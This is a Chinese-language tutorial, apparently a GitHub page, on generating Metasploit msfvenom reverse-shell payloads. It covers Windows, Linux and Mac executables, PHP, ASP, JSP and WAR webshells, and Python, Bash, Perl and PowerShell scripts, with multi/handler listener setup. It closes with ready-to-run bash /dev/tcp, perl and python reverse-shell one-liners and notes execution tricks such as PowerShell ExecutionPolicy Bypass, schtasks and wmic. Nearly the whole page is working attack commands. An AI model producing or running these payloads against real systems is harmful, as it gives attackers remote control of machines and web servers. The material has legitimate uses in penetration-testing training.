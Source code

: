 # 生成msf常用payload列表

在kali下可以使用如下命令列出MSFVenom可以生成的payload列表：
```
msfvenom -l
```
# 生成二进制文件(.exe)

关于二进制文件，主要介绍适用于`Windows、linux、mac`操作系统的payload生成与利用。

## Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

## Linux

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

## Mac

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
## 如何利用

如针对Windows生产一个exe的payload：
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.100.82 lport=6565 -f exe -o /re.exe
```
> 复制re.exe到Windows机器，然后kali下开启msf使用如下命令监听4444端口：


### msf调用这个框架
```
 use exploit/multi/handler
```
### 绑定payload
```
set payload windows/x64/meterpreter_reverse_tcp 
```
### 填写链接参数
``` 
set lhost 192.168.100.82  //设置接受payload的地址，我们这里设置MSF的地址
```
```
set lport 4444         // 设置接受的端口，这个自己自定义，只要不与其它端口冲突就可以
```
### 填写链接端口
```
 set ExitOnSession false     \\ 这样以后就不会自动结束掉job了
```
```
exploit -j -z  \\GKDGKD
```
想尽办法在Windows端运行即可

![](img/1.png)

在这里既然使用到了`在Windows下执行应用程序`，我们就大概盘点一下在Windows执行应用程序的几种方式：
```
双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
```
# 生成webshell脚本

在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成`一个可以用msf操作的webshell呢？`

### PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
### 或者
```
cat shell.php | pbcopy && echo '<?php ' | tr -d 'n' > shell.php && pbpaste >> shell.php
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### 如何利用
下面以`php`为例做一下测试，使用以下命令生成一个webshell：
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.100.82 LPORT=4444 -f raw > shell.php
```

### 在kali上使用msf执行下面的命令，监听端口4444：

```
use exploit/multi/handler
```
```

set PAYLOAD php/meterpreter_reverse_tcp  
```
```
set LHOST 192.168.88.128
```
```
set LPORT 4444
```
```
set ExitOnSession false
```
```
exploit -j -z
```
> 可见这段代码和上文中唯一不同就是设置了不同的payload(这不废话吗)

### 如何实现

>将shell.php放在web目录下，使用浏览器访问，或者使用以下命令执行：
```
php shell.php
```
![](img/2.png)
可以当成一个检测payload如果上线就提醒下线就当场去世(Died)

# 脚本shell

关于使用脚本反弹shell的方式，主要以p`ython、bash、perl`为例。

## Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

## Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

## Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## Powershell

```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1
```
然后使用`ps运行它才会执行反射payload`，执行代码：
```
powershell.exe -ExecutionPolicy Bypass -File shell.ps1
```
## 如何使用

下面就以Python为例做一下测试，使用以下命令生成一个脚本：
```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py
```
在kali上使用msf执行下面的命令，监听端口4444：

msfconsole
```
use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```

所以总结一下 ，payload的制作只要更改其中的payload的目录即可，设置基本都一样只是更换payload而已。

# 其他的各种各样的姿势的反弹shell：

```bash
bash:bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
```perl
perl: perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```python
python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
